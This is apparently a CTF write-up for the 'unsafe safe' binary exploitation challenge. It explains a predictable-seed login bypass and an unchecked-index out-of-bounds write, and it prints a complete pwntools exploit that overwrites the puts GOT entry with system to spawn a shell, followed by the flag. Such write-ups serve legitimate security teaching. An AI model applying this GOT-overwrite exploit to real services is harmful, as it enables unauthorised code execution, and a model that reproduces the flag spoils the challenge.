






## unsafe safe

```
Author: zran

So I just turned 17 and decided to make a bank account to deposit my money. This bank stores the money is safes, so it should be safe right?

nc ctf.tcp1p.com 1477
```
**Attachment**: [unsafe.zip](release/unsafe.zip)

We were given a zip file that contain an ELF binary, the source code, and some library file (including the interpreter). 

Here's some information about the binary.

  

<details close><summary>unsafe.c</summary>
    
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

unsigned long safes[100] = {7955998170729676800};
char *exit_message = "Have a nice day!";

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void deposit() {
    int index = 0;
    int amount = 0;
    puts("Enter the safe number you want to deposit in (0-100): ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%d", &amount);
    safes[index] += amount;
}

void login() {
    unsigned long age, input, password;
    char pet_name[5] = "\0\0\0\0\0";
    puts("Input your age: ");
    scanf("%lu", &age);
    if (age < 17) {
        puts("Sorry, this is not a place for kids");
        exit(0);
    }
    puts("Input your pet name: ");
    scanf("%5c", pet_name);
    srand(time(NULL) * (*(short *)pet_name * *(short *)(pet_name + 2) + age));
    password = rand();
    puts("Input your password: ");
    scanf("%lu", &input);
    if (input != password) {
        puts("Password Wrong!");
        exit(0);
    }
}

int main() {
    init();
    login();
    deposit();
    deposit();
    deposit();
    puts(exit_message);
}
```
</details>

Information about the LIBC:
  

The program will call the `login()` function and will ask the user to to input data, including age, the name of a pet, and a password. There's a validation mechanism using `rand()` function to check the input. The randomization seed is also set in this function using the current time as an integer, so we can implement the same in our solver to bypass the validation.

Now, let's take a look at the `deposit()` function. The program will ask the user to input two datas, including a safe number that responsible where the data will be stored at (index based) and the amount or a value that the user want to stored. Because there is no boundaries check on user input for the index of `safes` varaible, it caused an Out Of Bound (OOB) vulnerability that can be exploited to overwrite a value by adding it with the desired value (the user's second input in the `deposit()` function).

The idea I used is to write the string "sh" at index 0 of the global variable `safes`. 
  

Then, overwrite the pointer to the string in the global variable `exit_message` at index 100, so it points to the address where "sh" is stored in `safes[0]`. 
  

Afterward, overwrite the Global Offset Table (GOT) entry for the `puts()` function with the address of the system function. This way, when the program calls `puts(exit_message)` in the `main()` function, it will inadvertently call the `system()` function with "sh" as it arguments, then shell will be spawned.
  

<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/unsafe"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 1477
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null, cdll=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            # b *login+0xa9
            # b *login+0xcd
            # b *deposit+0x4a
            # b *deposit+0xae
            b *main+0x40
            """
            gdb.attach(io, gdbscript=cmd)

    age = 20
    pet_name = b"\x00"*4

    io.sendlineafter(b": ", str(age).encode())
    io.sendlineafter(b": ", pet_name)
    seed = int(time.time()) * (0 * 0xa00 + age) & 0xFF_FF_FF_FF
    cdll.srand(seed)
    current_password = cdll.rand()
    io.sendlineafter(b": ", str(current_password).encode())

    where = 0
    what = u16(b"sh")
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.symbols["exit_message"] - elf.symbols["safes"])//8
    what = 0x2058
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.got["puts"] - elf.symbols["safes"])//8
    what = libc.symbols["system"] - libc.symbols["puts"]
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
    libc = ELF("./libc.so.6")
    cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    exploit(io, libc, cdll)
``` 
</details>

  

    
**Flag:** TCP1P{bYp45s_tH3_l091n_4nd_0v3rwR1te_pUt5_t0_sy5t3m_4Nd_g3t_5hELl}